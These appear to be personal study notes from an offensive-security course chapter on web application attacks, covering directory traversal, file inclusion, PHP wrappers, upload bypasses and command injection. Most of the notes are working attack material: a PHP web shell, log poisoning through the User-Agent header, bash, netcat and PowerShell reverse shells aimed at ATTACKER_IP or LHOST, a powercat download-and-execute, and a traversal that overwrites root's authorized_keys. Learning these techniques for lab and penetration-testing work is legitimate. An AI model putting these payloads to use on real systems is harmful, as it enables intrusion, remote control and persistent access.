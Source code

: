 ## Section 9.1 Directory Traversal
### Subsection 9.1.2 Identifying and Exploiting Directory Traversals
- Most websites are run in a subdirectory of a low privileged user called www-data
	- /var/www/html/
	- C:\inetpub\wwwroot
- SSH keys can usually be located in ~/.ssh/
- To SSH using a private key file do the following 
```
sudo chmod 400 KEY_FILE
```
```
rm ~/.ssh/known_hosts
```
```
ssh -i KEY_FILE user@IP
```
## Section 9.2 File Inclusion Vulnerabilities
### Subsection 9.2.1 Local File Inclusion (LFI)
- One way to achieve LFI is to include executable code in a local file like access.log at /var/log/apache2/ then browsing to the page which will execute our code
- LFI can be used to get a reverse shell or to add our authorized key to the authorized keys file 
- to generate an authorized key 
- Quick php one-liner for LFI or as a stand-alone file for web app cmd access
```
<?php echo system($_GET['cmd']; ?>)
```
- Sent the following as the user-agent in the header
	- This was saved to ../../../../../../../../../var/log/apache2/access.log
	- Now when this file is called wiht &cmd=COMMAND the output comes back with the log file information and the cmd output based on where it has been stored in the logs 
	- Did have to use url encoding for spaces doing this
```
# Header
User-Agent: <?php echo system($_GET['cmd']; ?>)
# url call 
http://IP/../../../../../../../../../var/log/apache2/access.log&cmd=whoami
```
- Bash one-liner for LFI (encode special characters with url encoding)
```
bash -c "bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1"
```
### Subsection 9.2.2 PHP Wrappers
- Help to get the code via curl that is not in the webpage when it curled
- allow_url_include setting needs to be enabled in order to get code execution
- php wrappers from the course 
	- php://filter
		- displays the contents of files with or without encodings like ROT13 or Base64
		- helps analyze the web application's logic and look for sensitive information
```
http://IP/index.php?page=php://filter/resource=admin.php
http://IP/index.php?page=php://filter/convert.base64-encode/resource=admin.php
```
- php://data 
	- used to achieve code execution
	- used to embed data elements as plaintext or base64-encoded data running in the web application's code
	- this is an alternative when you cannot poison a local file with PHP code
```
http://IP/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>
echo -n '<?php echo system($_GET["cmd"]);?>' | base64
http://IP/index.php?page=data://text/plain;base64,BASE64_DATA&cmd=ls
```
## Section 9.3 File Upload Vulnerabilities
### Subsection 9.3.1 Using Executable Files
- PHP webshells that can be used for RFI can be found in 
```
/usr/share/webshells/php/
```
- .php files can be blocked on upload.  
	- by changing the extension to .PHp or .pHP or .phps or .php7 you may be able to bypass the filter
- Execution on a windows system
	- One-liner in powershell base64 to bypass a filter and get a reverse shell
```
$Text = IEX(New-Object System.Net.WebClient).DownloadString("SERVER_ADDRESS/powercat.ps1");powercat -c LHOST -p LPORT -e powershell
```
```
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
```
```
$EncodedText = [Convert]::ToBase64String($Bytes)
```
```
$EncodedText
```
- Copy and paste the output of $EncodedText as the command to get the reverse shell
### Subsection 9.3.2 Using Non-Executable Files
- This includes replacing the ~/.ssh/authorized_keys file with your authorized key
- To generate a key do the following
```
ssh-keygen
```
- filename can be anything but fileup works well
```
cat fileup.pub > authorized_keys
```
- In the burp or curl request make sure the filename goes to the correct folder such as 
```
filename="../../../../../../../root/.ssh/authorized_keys"
```
## Section 9.4 Command Injection
## Section 9.4.1 OS Command Injection
- To determine if cmd or powershell is being executed on a windows machine run the following command to see what interpreter is processing it
```
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```
- One-liner to run powercat from download
```
IEX(New-Object System.Net.WebClient).DownloadString("SERVER_ADDRESS/powercat.ps1");powercat -c LHOST -p LPORT -e powershell
```
- nc reverse shell from victim machine
```
# URL encode as needed
nc -e /bin/bash ATTACKER_IP ATTACKER_PORT
```
## Exercises To-Do

- [ ] 2.1.1 (page 20)